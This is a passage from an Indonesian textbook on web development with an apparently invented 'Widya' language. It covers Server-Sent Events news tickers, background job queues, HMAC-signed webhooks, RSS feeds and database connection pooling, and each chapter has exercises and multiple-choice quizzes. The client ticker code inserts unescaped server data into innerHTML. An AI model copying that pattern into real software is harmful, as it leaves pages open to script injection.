    - C. Mempercepat proses kompresi berkas CSS
    - D. Memenuhi syarat agar peramban tidak meminta kata sandi

---

# BAB 22: SERVER-SENT EVENTS (SSE) & HTTP STREAMING BREAKING NEWS TICKER

Bab ini membahas implementasi teknologi transmisi satu arah dari server ke klien (*unidirectional server-to-client push*) menggunakan Server-Sent Events (SSE) standar W3C dan HTTP Streaming untuk mengalirkan tajuk berita terkini (*Breaking News Ticker*), pembaruan data harga pasar modal, dan laporan pandangan mata redaksi secara hemat daya baterai.

---

## 22.1 Konsep Server-Sent Events & Format Data `text/event-stream`

Ketika kebutuhan sistem hanya bersifat satu arah—di mana klien hanya perlu mendengarkan siaran langsung pembaruan dari redaksi tanpa perlu mengirimkan pesan balik terus menerus—Server-Sent Events (SSE) adalah pilihan arsitektur yang jauh lebih sederhana, ringan, dan ramah infrastruktur daripada WebSockets. SSE berjalan di atas HTTP standar (`Content-Type: text/event-stream`), secara alami melewati firewall/proxy perusahaan, dan memiliki mekanisme penyambungan ulang otomatis (*auto-reconnect*) bawaan peramban melalui antarmuka `EventSource`.

```mermaid
flowchart LR
    subgraph ServerSide ["WidyaWeb Newsroom Engine"]
        NewsPublisher["Redaktur Terbitkan Breaking News"] --> EventHub["WidyaWeb SSE Broadcaster Hub"]
        EventHub --> StreamPipeline["HTTP Chunked Pipeline ('text/event-stream')"]
    end

    subgraph ClientSide ["Peramban Pembaca NusantaraNews"]
        StreamPipeline -- HTTP/2 Multiplexed Stream --> BrowserClient["Antarmuka window.EventSource"]
        BrowserClient --> DOMPatch["Patch Animasi Ticker Berita Kritis (Pulsing Red Bar)"]
    end
```

Format data SSE sangat terstruktur dan berbasis baris teks:
```http
event: breaking_news
id: evt-89421
retry: 5000
data: {"judul": "Gempa Magnitudo 5.8 Guncang Wilayah Selatan Jawa", "kategori": "Bencana", "waktu": "14:02 WIB"}

```

---

## 22.2 Implementasi Endpoint SSE Breaking News

Berikut adalah implementasi endpoint peladen streaming berita mendesak dan komponen pendengar di sisi klien:

```widya
// Modul SSE NusantaraNews
gunakan widya::web::streaming::{SaluranSSE, ResponStreaming, AcaraSSE};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::sinkronisasi::{Kanal};

fungsi TanganiAliranBreakingNews(req: Permintaan) -> Respon {
    // 1. Validasi Dukungan Klien
    tetapan id_acara_terakhir = req.tajuk("Last-Event-ID").nilai_atau("0");

    // 2. Buat Saluran Aliran Asinkron
    tetapan (pengirim, penerima) = Kanal::tak_terbatas::<AcaraSSE>();
    
    // Daftarkan saluran ke Registry Pusat Berita Mendesak
    tetapan id_langganan = PusatBreakingNews::daftar_pendengar(pengirim, id_acara_terakhir.ke_bulat());

    // 3. Konfigurasi Respons Streaming HTTP
    kembalikan ResponStreaming::baru(penerima)
        .atur_tajuk("Content-Type", "text/event-stream")
        .atur_tajuk("Cache-Control", "no-cache, no-transform")
        .atur_tajuk("Connection", "keep-alive")
        .atur_tajuk("X-Accel-Buffering", "no") // Mencegah Nginx/Proxy menahan buffer
        .pada_koneksi_putus(fungsi() {
            PusatBreakingNews::hapus_pendengar(id_langganan);
            cetak_log("[SSE] Koneksi pendengar " + id_langganan.ke_teks() + " ditutup.");
        })
        .bangun();
}

// Komponen Pengiriman Acara dari Redaksi
fungsi SiarkanBeritaMendesak(judul: Teks, kategori: Teks, url: Teks) {
    tetapan acara = AcaraSSE::baru()
        .tipe_acara("breaking_news")
        .id(ambil_stempel_waktu_unik())
        .jeda_sambung_ulang_ms(3000)
        .muatan_json({
            "judul": judul,
            "kategori": kategori,
            "url": url,
            "stempel": ambil_waktu_iso8601()
        });

    PusatBreakingNews::siarkan_semua(acara);
}
```

Implementasi di sisi peramban klien menggunakan JavaScript/Widya-Lang Klien:

```javascript
// news-ticker-client.js
const sumberBerita = new EventSource("/api/v1/news/stream/breaking");

sumberBerita.addEventListener("breaking_news", (event) => {
  const berita = JSON.parse(event.data);
  const tickerBar = document.getElementById("breaking-news-bar");
  
  // Tampilkan notifikasi pita merah di bagian atas halaman
  tickerBar.innerHTML = `<span class="badge-urgent">BREAKING:</span> <a href="${berita.url}">${berita.judul}</a>`;
  tickerBar.classList.add("visible", "flash-animation");
});

sumberBerita.onerror = (err) => {
  console.warn("Koneksi SSE terputus, browser akan mencoba sambung ulang otomatis...");
};
```

---

## 22.3 Analisis Efisiensi: SSE vs WebSockets untuk Siaran Satu Arah

Pemilihan SSE untuk portal berita memberikan keuntungan operasional yang masif dibandingkan WebSockets.

| Kriteria Arsitektur | WebSockets (RFC 6455) | Server-Sent Events (SSE) | Keunggulan SSE untuk Berita |
| :--- | :--- | :--- | :--- |
| **Arah Komunikasi** | Dua Arah (*Bi-directional*) | Satu Arah (*Server-to-Client*) | Sempurna untuk Model Berita/Ticker |
| **Dukungan Protokol HTTP/2 & 3** | Kompleks (Perlu RFC 8441) | Bawaan (*Native Multiplexing*) | Hemat Koneksi TCP (1 Koneksi Semua Rute) |
| **Dukungan Proxy & Firewall** | Sering Diblokir Corporate Proxy | 100% Lolos (HTTP Standar) | Keterjangkauan Pengguna Universal |
| **Penanganan Sambung Ulang** | Harus Diprogram Manual di Klien | Bawaan Peramban (*Auto Retry*) | Bebas Kerumitan Kode Klien |
| **Konsumsi Baterai Mobile** | Lebih Boros karena Heartbeat Manual | Sangat Efisien (Diatur Radio Seluler) | Ramah Pembaca Ponsel |

---

## 22.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pemulihan Riwayat dengan Tajuk `Last-Event-ID`**: Kembangkan logika pada peladen untuk mengirimkan daftar 3 berita breaking news terakhir yang terlewat jika klien menyambung kembali dengan membawa `Last-Event-ID`.
2. **Kanal Aliran Nilai Tukar Mata Uang & Indeks Saham (IHSG)**: Buat endpoint SSE terpisah `/api/v1/stream/finance` yang memancarkan pembaruan kurs mata uang setiap kali ada fluktuasi pasar finansial.
3. **Pemberitahuan Khusus Redaksi Masuk (Editorial Push Notification)**: Buat saluran SSE khusus di halaman admin jurnalis yang memberi peringatan suara instan saat artikel investigasi mereka disetujui untuk terbit oleh Pemimpin Redaksi.

---

## 22.5 Evaluasi Mandiri Pilihan Ganda

1. Nilai tajuk `Content-Type` resmi apa yang menandai aliran Server-Sent Events (SSE)?
   - A. `application/json`
   - B. `text/event-stream`
   - C. `multipart/form-data`
   - D. `text/html`

2. Mengapa SSE sering kali lebih disukai daripada WebSockets untuk fitur siaran berita mendesak (*breaking news*)?
   - A. Karena berita hanya membutuhkan komunikasi satu arah dari redaksi ke pembaca, mendukung multiplexing HTTP/2 bawaan, dan memiliki fitur sambung ulang otomatis
   - B. Karena SSE mengharuskan browser diinstal ulang
   - C. Karena SSE tidak dapat mentransmisikan teks
   - D. Karena SSE mematikan koneksi internet pengguna

3. Objek JavaScript standar peramban apa yang digunakan untuk mendengarkan aliran data SSE?
   - A. `XMLHttpRequest`
   - B. `EventSource`
   - C. `WebSocket`
   - D. `AudioContext`

4. Apa fungsi dari tajuk `Last-Event-ID` yang dikirimkan oleh peramban saat menyambung kembali setelah koneksi terputus?
   - A. Memberi tahu server ID pesan terakhir yang berhasil diterima sehingga server dapat mengirimkan pesan-pesan yang terlewat
   - B. Menghapus riwayat cache peramban
   - C. Menyetel kata sandi baru untuk pengguna
   - D. Mengubah alamat email pelanggan

5. Baris teks dalam muatan SSE yang menentukan durasi tunggu peramban (dalam milidetik) sebelum mencoba menyambung ulang otomatis jika koneksi terputus adalah:
   - A. `data:`
   - B. `retry:`
   - C. `id:`
   - D. `event:`

6. Mengapa tajuk `X-Accel-Buffering: no` sering disertakan dalam respons SSE saat berjalan di belakang reverse proxy Nginx?
   - A. Mencegah proxy menahan buffer data dan memaksa setiap potongan peristiwa teks dikirimkan langsung ke klien secara seketika
   - B. Mematikan fitur caching gambar
   - C. Mengubah warna tema Nginx
   - D. Mengizinkan unduhan file sebesar 10 Gigabyte

7. Nilai `Cache-Control` apa yang wajib disematkan pada endpoint SSE agar respons tidak disimpan secara statis oleh perantara jaringan?
   - A. `public, max-age=3600`
   - B. `no-cache, no-transform`
   - C. `immutable`
   - D. `only-if-cached`

8. Karakter pemisah apa yang menandakan akhir dari satu blok peristiwa (*event block*) lengkap dalam spesifikasi teks SSE?
   - A. Tanda titik koma ganda (`;;`)
   - B. Dua karakter baris baru berurutan (`\n\n`)
   - C. Tanda kurung kurawal tutup (`}`)
   - D. Karakter EOF biner

9. Berapa jeda waktu sambung ulang bawaan yang ditetapkan pada modul `AcaraSSE` di atas?
   - A. 3000 milidetik (3 detik)
   - B. 1 jam
   - C. Nol milidetik
   - D. 24 jam

10. Apakah koneksi SSE dapat berjalan di atas protokol HTTPS yang aman?
    - A. Ya, SSE beroperasi penuh di atas HTTP/1.1 TLS, HTTP/2 TLS, dan HTTP/3 QUIC secara transparan
    - B. Tidak, SSE hanya boleh menggunakan koneksi HTTP terbuka tanpa enkripsi
    - C. Hanya jika sistem operasi klien adalah Windows XP
    - D. Memerlukan kabel jaringan khusus

---

# BAB 23: ANTREAN TUGAS LATAR BELAKANG ASINKRON (ASYNC JOB QUEUE)

Bab ini membedah arsitektur pemrosesan tugas latar belakang asinkron (*asynchronous background job processing*) pada portal berita NusantaraNews: transisi pekerjaan lambat keluar dari siklus permintaan-respons HTTP, implementasi sistem antrean berorientasi pesan (*message-driven task queue*), penanganan kegagalan (*Dead-Letter Queue / DLQ*), dan orkestrasi pemrosesan transisi gambar resolusi tinggi serta pengiriman jutaan buletin surel.

---

## 23.1 Teori Pemrosesan Latar Belakang & Pola Producer-Consumer

Ketika jurnalis menekan tombol "Terbitkan Artikel", sistem tidak boleh membiarkan peramban menunggu puluhan detik hingga proses pengubahan ukuran 10 gambar resolusi tinggi, inferensi semantik kecerdasan buatan, pembersihan cache CDN global, dan pengiriman 200.000 notifikasi buletin email selesai. Sistem harus langsung merespons dalam hitungan milidetik, sementara komputasi berat didelegasikan ke pekerja latar belakang (*Worker Pool*).

```mermaid
flowchart TD
    subgraph SiklusHTTP ["Siklus Cepat HTTP (< 20 ms)"]
        Jurnalis["Jurnalis / Redaktur Klik 'Terbitkan'"] --> API["WidyaWeb REST Handler"]
        API --> DB_Insert["INSERT Artikel (Status: Published)"]
        DB_Insert --> PushJob["Dorong Tugas ke Antrean (Push Task)"]
        PushJob --> Respon200["Respon HTTP 200 OK Selesai"]
    end

    subgraph MesinAntrean ["Broker Antrean WidyaBase Queue"]
        PushJob -. Simpan Payload .-> AntreanUtama["Antrean Prioritas Tinggi (jobs:high)"]
        AntreanUtama --> Pekerja1["Pekerja Transcoding Media & WebP/AVIF"]
        AntreanUtama --> Pekerja2["Pekerja Pembersihan Cache CDN Global"]
        AntreanUtama --> Pekerja3["Pekerja Ekstraksi Vektor AI & Indeks BM25"]
        AntreanUtama --> Pekerja4["Pekerja Penyiaran Notifikasi Surel"]
    end

    subgraph PemulihanKegagalan ["Penanganan Kegagalan"]
        Pekerja4 -- Gagal 3x --> DLQ["Dead-Letter Queue (jobs:dead_letter)"]
        DLQ --> NotifikasiAdmin["Peringatan Slack / PagerDuty Redaksi"]
    end
```

---

## 23.2 Implementasi Job Producer & Worker Pool di WidyaWeb

Berikut adalah implementasi modul antrean tugas asinkron yang memanfaatkan persistensi transaksi ACID basis data WidyaBase:

```widya
// Modul Antrean Tugas NusantaraNews
gunakan widya::web::antrean::{AntreanTugas, Tugas, Prioritas, HasilTugas};
gunakan widya::base::koneksi::{buka_koneksi};

rekod PayloadArtikelTerbit {
    artikel_id: Teks,
    judul: Teks,
    jalur_gambar_asli: Teks,
    daftar_email_distribusi: Senarai<Teks>
}

// 1. Fungsi Produsen (Dijalankan di HTTP Handler)
fungsi JadwalkanTugasPublikasi(artikel_id: Teks, judul: Teks, jalur_gambar: Teks) {
    tetapan antrean = AntreanTugas::ambil("nusantara_jobs");

    // Enqueue Tugas Kompresi Gambar
    antrean.dorong(Tugas::baru("proses_media_artikel", {
        "artikel_id": artikel_id,
        "jalur_gambar": jalur_gambar
    })
    .prioritas(Prioritas::Tinggi)
    .maksimal_percobaan(3)
    .timeout_detik(60));

    // Enqueue Tugas Buletin Surel Masal
    antrean.dorong(Tugas::baru("siarkan_buletin_pembaca", {
        "artikel_id": artikel_id,
        "judul": judul
    })
    .prioritas(Prioritas::Sedang)
    .tunda_detik(5) // Berikan jeda 5 detik agar CDN siap
    .maksimal_percobaan(5));
}

// 2. Fungsi Konsumen / Worker Daemon
fungsi JalankanWorkerMedia() {
    tetapan antrean = AntreanTugas::ambil("nusantara_jobs");
    cetak_log("[Worker Media] Memulai pemantauan antrean tugas...");

    ulang {
        // Ambil tugas dengan pemblokiran aman (BRPOP atomik)
        tetapan tugas = antrean.ambil_tugas_berikutnya(["proses_media_artikel"], 5); // Timeout 5s
        
        jika tugas.ada() {
            tetapan t = tugas.ambil();
            cetak_log("[Worker Media] Memproses tugas: " + t.id());

            tetapan hasil = ProsesVarianGambar(t.payload().ambil("jalur_gambar"));
            
            pilih hasil {
                Hasil::Sukses(_) => {
                    t.tandai_selesai();
                    cetak_log("[Worker Media] Sukses menyelesaikan tugas " + t.id());
                },
                Hasil::Gagal(err) => {
                    cetak_peringatan("[Worker Media] Gagal: " + err.pesan());
                    t.catat_kegagalan_dan_coba_ulang(); // Masuk DLQ otomatis jika kuota habis
                }
            }
        }
    }
}
```

---

## 23.3 Analisis Ketahanan & Manajemen Dead-Letter Queue (DLQ)

Arsitektur antrean tugas yang andal harus tahan terhadap kegagalan perangkat keras, pemadaman listrik, dan kehabisan memori.

| Komponen Arsitektur | Risiko Masalah | Solusi Implementasi WidyaWeb |
| :--- | :--- | :--- |
| **Worker Mati Mendadak (SIGKILL)** | Tugas hilang di tengah pemrosesan | Pola *Two-Phase Acknowledgment* (Tugas dikembalikan ke antrean jika visibilitas habis) |
| **Pihak Ketiga (SMTP / CDN) Down** | Siklus kegagalan terus menerus | *Exponential Backoff* penundaan percobaan ulang (1m, 5m, 15m) |
| **Muatan Korup (*Poison Pill*)** | Memacetkan worker secara abadi | Pindahkan ke *Dead-Letter Queue* setelah 3 kali gagal untuk dianalisis tim SRE |
| **Lonjakan Berita Viral Masif** | Antrean membengkak hingga jutaan tugas | Skalabilitas horizontal pekerja (*Worker Horizontal Autoscaling*) |

---

## 23.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pengiriman Surel Masal Berbasis Batch (Batch Chunker)**: Rancang tugas latar belakang yang memecah 50.000 alamat email penerima buletin menjadi kumpulan paket 100 surel untuk menghindari pembatasan batas laju peladen SMTP.
2. **Pembersihan Berkas Media Sampah Terjadwal (Cron Job)**: Buat tugas terjadwal yang berjalan setiap pukul 02:00 dini hari untuk menghapus berkas gambar sementara (*temp upload*) yang tidak pernah diterbitkan dalam tempo 24 jam.
3. **Penyusunan Dasbor Metrik Pemantauan Antrean**: Buat endpoint metrik `/api/admin/queues` yang melaporkan jumlah tugas yang sedang berjalan, tugas tertunda, dan tugas di dalam DLQ untuk diekspor ke Prometheus.

---

## 23.5 Evaluasi Mandiri Pilihan Ganda

1. Mengapa tugas berat seperti pengolahan video atau pengiriman ribuan email tidak boleh dijalankan langsung di dalam siklus permintaan HTTP?
   - A. Menghindari peramban pengguna mengalami timeout, membebaskan thread peladen web, dan meningkatkan responsivitas pengguna secara instan
   - B. Karena email dilarang dikirim melalui protokol HTTP
   - C. Karena ukuran teks artikel akan mengecil secara otomatis
   - D. Menghindari pemotongan honorarium jurnalis

2. Apa yang dimaksud dengan *Dead-Letter Queue* (DLQ) dalam sistem antrean pesan?
   - A. Antrean khusus penampungan tugas-tugas yang telah gagal dieksekusi berkali-kali hingga batas maksimal percobaan habis, untuk diisolasi dan dianalisis tanpa memacetkan sistem utama
   - B. Tempat pembuangan sampah fisik di kantor berita
   - C. Folder penyimpanan berkas teks yang sudah kedaluwarsa
   - D. Antrean email yang dikirim ke alamat yang sudah meninggal dunia

3. Pola arsitektur apa yang digunakan pada sistem antrean tugas di mana ada pihak yang memproduksi tugas dan pihak lain yang mengeksekusinya?
   - A. Pola Producer-Consumer
   - B. Pola Client-Server murni
   - C. Pola P2P Tanpa Peladen
   - D. Pola Single Threaded Loop

4. Mengapa mekanisme *Two-Phase Acknowledgment* sangat krusial dalam keandalan sistem antrean?
   - A. Memastikan sebuah tugas hanya dihapus permanen dari antrean setelah pekerja berhasil menyelesaikannya secara sukses dan mengirimkan konfirmasi (*ACK*)
   - B. Memaksa pengembang menekan tombol konfirmasi dua kali di keyboard
   - C. Mempercepat proses kompresi video hingga dua kali lipat
   - D. Menghapus tugas secara otomatis begitu diambil oleh pekerja

5. Nilai parameter `tunda_detik(5)` pada tugas buletin surel di atas bertujuan untuk apa?
   - A. Menunda eksekusi tugas selama 5 detik agar aset gambar dan artikel sudah selesai terunggah dan tersebar di cache CDN sebelum tautan dibuka pembaca
   - B. Memberikan waktu istirahat pada prosesor komputer
   - C. Menunggu server memuat ulang kernel Linux
   - D. Mengubah format huruf menjadi miring

6. Operasi basis data apa yang idealnya digunakan untuk mengambil tugas berikutnya secara atomik dan efisien tanpa menimbulkan kondisi balapan (*race condition*) antar pekerja?
   - A. `SELECT * FROM tugas` tanpa penguncian
   - B. `BRPOP` atomik atau `SELECT ... FOR UPDATE SKIP LOCKED`
   - C. Menghapus seluruh tabel tugas
   - D. Menyalin seluruh isi basis data ke berkas CSV

7. Apa bahaya utama dari fenomena *Poison Pill* dalam antrean pesan?
   - A. Pesan tugas yang rusak atau memiliki muatan cacat yang selalu menyebabkan pekerja crash setiap kali diproses, berpotensi mematikan seluruh kolam pekerja jika tidak dibatasi
   - B. Komputer terbakar karena panas berlebih
   - C. Virus komputer yang menghapus seluruh foto jurnalis
   - D. Kipas komputer mati mendadak

8. Berapa jumlah maksimal percobaan ulang (*max retries*) yang dikonfigurasikan untuk tugas proses media pada implementasi di atas?
   - A. 1 kali
   - B. 3 kali
   - C. 100 kali
   - D. Tak terbatas

9. Bagaimana strategi penskalaan terbaik jika jumlah tugas publikasi melonjak 10 kali lipat saat pemilihan umum nasional?
   - A. Mematikan peladen web
   - B. Menambah jumlah instans proses pekerja (*Worker Nodes*) secara horizontal untuk membagi konsumsi antrean secara paralel
   - C. Menghapus antrean tugas
   - D. Melarang redaktur menerbitkan berita baru

10. Apa keuntungan menetapkan prioritas tugas (seperti `Prioritas::Tinggi` dan `Prioritas::Sedang`)?
    - A. Memastikan tugas mendesak yang berdampak langsung pada pengalaman pengguna (seperti optimasi gambar artikel) diproses lebih dahulu daripada tugas massal berlatensi santai (seperti buletin email)
    - B. Menghemat kuota listrik bulanan
    - C. Mengurangi ukuran berkas PDF
    - D. Membatasi jumlah jurnalis yang aktif

---

# BAB 24: INTEGRASI WEBHOOK & SINDIKASI BERITA MULTI-PLATFORM

Bab ini menyajikan panduan komprehensif dalam membangun sistem distribusi berita multi-kanal portal NusantaraNews: implementasi mesin pemancar *Outbound Webhook* dengan penandatanganan kriptografis HMAC-SHA256, penanganan *Inbound Webhook* dari kantor berita mitra, serta penyediaan umpan sindikasi otomatis berbasis RSS 2.0, Atom, dan JSON Feed.

---

## 24.1 Arsitektur Distribusi Berita & Keamanan Webhook

Dalam ekosistem media modern, artikel berita yang terbit di NusantaraNews harus secara otomatis didistribusikan ke berbagai agregator konten mitra, saluran media sosial, aplikasi mitra finansial, serta pembaca setia yang menggunakan aplikasi pembaca berita (*Feed Reader*). 

```mermaid
flowchart TD
    subgraph Penerbitan ["Pusat Penerbitan Berita"]
        Redaktur["Persetujuan Redaksi (Status: Published)"] --> Dispatcher["WidyaWeb Webhook & Feed Dispatcher"]
    end

    subgraph SindikasiUmpan ["Umpan Sindikasi Publik"]
        Dispatcher --> RSS["Umpan RSS 2.0 (/rss.xml)"]
        Dispatcher --> Atom["Umpan Atom (/atom.xml)"]
        Dispatcher --> JSONFeed["Umpan JSON Feed v1.1 (/feed.json)"]
    end

    subgraph WebhookMitra ["Pemancar Webhook Aman (HMAC Signed)"]
        Dispatcher --> Signer["Penandatangan Payload (HMAC-SHA256)"]
        Signer --> PartnerA["Mitra Agregator Berita (HTTP POST)"]
        Signer --> PartnerB["Saluran Bot Telegram & Discord Redaksi"]
        Signer --> PartnerC["Aplikasi Analitik Sentimen Pasar Saham"]
    end
```

Untuk menjamin integritas dan keaslian muatan data webhook, setiap pengiriman paket HTTP disertai dengan tanda tangan kriptografis pada tajuk `X-Nusantara-Signature` yang dihasilkan menggunakan kunci rahasia bersama (*shared secret*).

---

## 24.2 Implementasi Pemancar Webhook & Generator Feed

Berikut adalah implementasi modul pemancar webhook aman dengan pengiriman ulang otomatis dan generator umpan sindikasi RSS 2.0:

```widya
// Modul Sindikasi & Webhook NusantaraNews
gunakan widya::web::kripto::{hmac_sha256_hex};
gunakan widya::web::klien_http::{KlienHTTP, TajukPermintaan};
gunakan widya::web::sindikasi::{UmpanRSS, ItemRSS};

rekod LanggananWebhook {
    id: Teks,
    url_target: Teks,
    kunci_rahasia: Teks,
    acara_diikuti: Senarai<Teks>
}

// 1. Pemancar Webhook Aman
fungsi PancarkanWebhookArtikel(langganan: LanggananWebhook, tipe_acara: Teks, data_artikel: PetaData) -> Hasil<(), Galat> {
    tetapan klien = KlienHTTP::baru();
    tetapan stempel_waktu = ambil_waktu_unix_detik().ke_teks();
    
    // Bangun Payload JSON
    tetapan muatan = {
        "event": tipe_acara,
        "timestamp": stempel_waktu,
        "data": data_artikel
    }.ke_json_teks();

    // Hitung Tanda Tangan Kriptografis HMAC-SHA256 (Pencegah Replay Attack & Tampering)
    tetapan data_tanda_tangan = stempel_waktu + "." + muatan;
    tetapan tanda_tangan = hmac_sha256_hex(langganan.kunci_rahasia, data_tanda_tangan);

    // Kirim Permintaan POST ke Server Mitra
    tetapan respon = klien.pos(langganan.url_target)
        .atur_tajuk("Content-Type", "application/json")
        .atur_tajuk("User-Agent", "NusantaraNews-Webhook-Dispatcher/2.0")
        .atur_tajuk("X-Nusantara-Signature", "t=" + stempel_waktu + ",v1=" + tanda_tangan)
        .atur_timeout_ms(5000)
        .badan_teks(muatan)
        .kirim()?;

    jika respon.kode_status() >= 200 && respon.kode_status() < 300 {
        cetak_log("[Webhook] Sukses terkirim ke " + langganan.url_target);
        kembalikan Hasil::Sukses(());
    } jika_tidak {
        cetak_peringatan("[Webhook] Mitra merespon status galat: " + respon.kode_status().ke_teks());
        kembalikan Hasil::Gagal(Galat::baru("Mitra menolak webhook"));
    }
}

// 2. Generator Umpan Sindikasi RSS 2.0
fungsi HasilkanUmpanRSS(daftar_artikel: Senarai<Artikel>) -> Teks {
    tetapan mutabel rss = UmpanRSS::baru(
        "NusantaraNews Terkini",
        "https://nusantaranews.id",
        "Pemberitaan Terpercaya, Aktual, dan Mendalam dari Seluruh Penjuru Nusantara"
    )
    .bahasa("id-ID")
    .hak_cipta("Hak Cipta © 2026 PT Nusantara Media Multimedia");

    untuk a di daftar_artikel {
        rss.tambah_item(ItemRSS::baru(a.judul)
            .tautan("https://nusantaranews.id/berita/" + a.slug)
            .deskripsi(a.ringkasan)
            .penulis(a.nama_penulis)
            .kategori(a.kategori)
            .guid("nusantara-berita-" + a.id)
            .tanggal_publikasi(a.diterbitkan_pada.ke_rfc822()));
    }

    kembalikan rss.ke_xml();
}
```

---

## 24.3 Analisis Spesifikasi Umpan Sindikasi Modern

Pemilihan format sindikasi konten harus mendukung ekosistem aplikasi pembaca berita global dan pengindeks konten.

| Parameter Format | RSS 2.0 (XML) | Atom 1.0 (XML) | JSON Feed v1.1 |
| :--- | :--- | :--- | :--- |
| **Format Serialisasi** | Dokumen XML Tradisional | Dokumen XML Terstandarisasi IETF | Dokumen JSON Modern |
| **Kekuatan Spesifikasi** | Longgar & Fleksibel | Ketat & Sangat Presisi (RFC 4287) | Sangat Bersih & Ringkas |
| **Dukungan Pembaca Berita** | 100% Universal | 98% Agregator Modern | Pembaca Berita Modern & Pengembang Web |
| **Kemudahan Parsing di Web** | Memerlukan XML DOM Parser | Memerlukan XML DOM Parser | `JSON.parse()` Bawaan Sangat Cepat |

---

## 24.4 Latihan Praktik & Studi Kasus

1. **Implementasi Verifikasi Tanda Tangan Webhook Masuk (Inbound Webhook Verification)**: Bangun middleware penerima webhook yang memvalidasi keabsahan tajuk `X-Mitra-Signature` dari kantor berita luar sebelum memasukkan naskah berita mitra ke dalam ruang redaksi.
2. **Mitigasi Serangan Pengulangan (Replay Attack Prevention)**: Tambahkan validasi batas toleransi stempel waktu maksimal 5 menit (`|waktu_sekarang - stempel_waktu| <= 300 detik`) agar paket webhook lama yang dicegat peretas tidak dapat dikirimkan ulang.
3. **Penyusunan Endpoint JSON Feed v1.1**: Rancang endpoint `/api/feed.json` yang menyajikan 30 berita terhangat sesuai spesifikasi resmi `https://jsonfeed.org/version/1.1`.

---

## 24.5 Evaluasi Mandiri Pilihan Ganda

1. Algoritma kriptografis standar apa yang digunakan untuk menghasilkan tanda tangan otentikasi pada tajuk `X-Nusantara-Signature`?
   - A. MD5 sederhana
   - B. HMAC-SHA256
   - C. ROT13
   - D. Base64 encoding polos tanpa kunci

2. Bagaimana cara mitra penerima memverifikasi keaslian muatan webhook yang mereka terima?
   - A. Menghitung kembali nilai HMAC-SHA256 dari muatan JSON menggunakan kunci rahasia bersama (*shared secret*) dan mencocokkannya dengan tanda tangan pada tajuk HTTP
   - B. Menelepon nomor telepon kantor redaksi
   - C. Mengirimkan surat pos fisik ke kantor redaksi
   - D. Mengubah format berkas menjadi file zip

3. Format tanggal dan waktu standar apa yang diwajibkan dalam spesifikasi umpan sindikasi RSS 2.0?
   - A. RFC 822 (misal: `Tue, 10 Jun 2026 04:00:00 GMT`)
   - B. Waktu lokal Indonesia Barat (WIB) tanpa zona waktu
   - C. Tanggal Jawa kuno
   - D. Jumlah hari sejak tahun 2000

4. Mengapa penyertaan stempel waktu (`timestamp`) di dalam perhitungan tanda tangan webhook sangat krusial?
   - A. Mencegah serangan pengulangan (*Replay Attack*) di mana penyerang mencegat permintaan lama dan mengirimkannya kembali untuk memicu aksi berulang
   - B. Menghemat memori RAM komputer mitra
   - C. Mempercepat koneksi internet pelanggan
   - D. Membatasi ukuran font peramban

5. Apa perbedaan mendasar antara model polling sindikasi (RSS/Atom) dan model transmisi Webhook?
   - A. RSS/Atom ditarik oleh klien secara berkala (*Pull model*), sedangkan Webhook didorong langsung oleh server penerbit ke mitra saat peristiwa terjadi (*Push model*)
   - B. RSS hanya bisa dibaca di malam hari
   - C. Webhook tidak memerlukan jaringan internet
   - D. RSS dilarang membawa teks berita

6. Format sindikasi umpan berita modern apa yang berbasis notasi JSON murni sebagai alternatif dokumen XML?
   - A. JSON Feed (versi 1.1)
   - B. YAML Document
   - C. CSV Table
   - D. SQLite Dump

7. Apa tujuan penetapan batas waktu (*timeout*) sebesar 5000ms pada pengiriman webhook ke mitra?
   - A. Mencegah thread pengirim tersandera menunggu terlalu lama jika peladen mitra mengalami hang atau gangguan jaringan
   - B. Mengurangi kapasitas baterai laptop
   - C. Memaksa mitra membeli server baru
   - D. Menghapus rekod berita dari database

8. Unsur unik apa di dalam item RSS yang menjamin pembaca berita tidak memunculkan artikel yang sama secara ganda?
   - A. Elemen `<guid>` (Globally Unique Identifier)
   - B. Tag `<font>`
   - C. Tag `<b>`
   - D. Gambar header

9. Tipe status kode HTTP apa yang menandakan bahwa mitra berhasil menerima dan memproses paket webhook?
   - A. Status sukses seri 2xx (misal: 200 OK atau 204 No Content)
   - B. Status 404 Not Found
   - C. Status 500 Internal Server Error
   - D. Status 403 Forbidden

10. Mengapa pengiriman webhook ke banyak mitra sebaiknya dijalankan melalui antrean tugas latar belakang (*Background Job Queue*)?
    - A. Memastikan proses penerbitan berita utama tidak terhambat oleh keterlambatan atau kegagalan koneksi di peladen mitra eksternal
    - B. Menghilangkan kebutuhan sertifikat SSL
    - C. Mengurangi biaya langganan internet kantor
    - D. Membatasi jumlah artikel maksimal 5 buah per hari

---

# BAB 25: KONEKTIVITAS NATIVE WIDYABASE & CONNECTION POOLING

Bab ini membahas integrasi mendalam antara kerangka kerja aplikasi WidyaWeb dengan mesin basis data terdistribusi WidyaBase: implementasi protokol wire Postgres v3.0 native, arsitektur *Connection Pooling* berkinerja tinggi, konfigurasi batas konkurensi koneksi, serta penanganan failover klaster otomatis (*transparent connection failover*).

---

## 25.1 Arsitektur Driver Native & Protokol Pgwire v3.0

WidyaBase menyediakan kompatibilitas biner protokol kabel PostgreSQL v3.0 (*pgwire*), memungkinkan runtime WidyaWeb melakukan komunikasi soket TCP biner langsung tanpa beban perantara wrapper C yang lambat. Driver native WidyaWeb mengimplementasikan protokol pesan berbingkai (*framed message protocol*) yang mencakup fase Startup, Autentikasi SASL/SCRAM-SHA-256, Extended Query (Parse, Bind, Execute, Sync), dan ReadyForQuery.

```mermaid
sequenceDiagram
    autonumber
    participant App as WidyaWeb Server Worker
    participant Pool as Pool Koneksi Native (50 Sockets)
    participant DB as WidyaBase Primary Node (Port 5432)

    App->>Pool: Pinjam Koneksi (Lease Socket)
    alt Koneksi Siaga Tersedia
        Pool-->>App: Serahkan Socket Aktif (0.02 ms)
    else Seluruh Socket Sibuk & Kuota Belum Penuh
        Pool->>DB: Handshake Pgwire Baru (StartupMessage + SCRAM-SHA-256)
        DB-->>Pool: ReadyForQuery (Socket Siap)
        Pool-->>App: Serahkan Socket Baru
    end
    App->>DB: Biner: Parse("SELECT * FROM artikel WHERE id = $1")
    App->>DB: Biner: Bind(id = "art-882") + Execute + Sync
    DB-->>App: DataRow(1 rekod) + CommandComplete
    App->>Pool: Kembalikan Koneksi ke Pool (Release Socket)
```

